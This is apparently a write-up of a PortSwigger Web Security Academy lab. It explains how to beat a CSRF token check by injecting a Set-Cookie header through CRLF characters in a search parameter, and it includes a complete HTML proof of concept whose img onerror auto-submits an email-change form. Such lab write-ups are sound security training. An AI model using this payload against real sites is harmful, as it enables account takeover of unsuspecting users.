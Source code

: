  `Set-Cookie` is a HTTP Request Header which can store your cookie on your machine. This cookie will send automatically in the next request to the same domain, which can keep your session or store user info. In this payload, we use an `<img>` tag which access to a non-existing page (cotain in `search` parameter), then we inject `Set-Cookie` header with attacker's `csrfKey`value, once `onerror` action is triggered, the form which contains attacker's email and CSRF token will be sent, with the Cookie values were set by `Set-Cookie` header before. We need to set `SameSite=None` in `Set-Cookie` header to send request from cross-site domain, `SameSite` is a mechanism which preventing CSRF attack when we set it to `Strict` or `Lax`.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a6b00f90354f143800f679000e90074.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker_lorddd@gmail.com" />
      <input type="hidden" name="csrf" value="NQnOZQs6Lt8QEYoi9dtiDUmkaWQEnCaz" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a6b00f90354f143800f679000e90074.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=vWAKZgCXhyKrYD1X8qsW7P4ovUZvFXe7%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```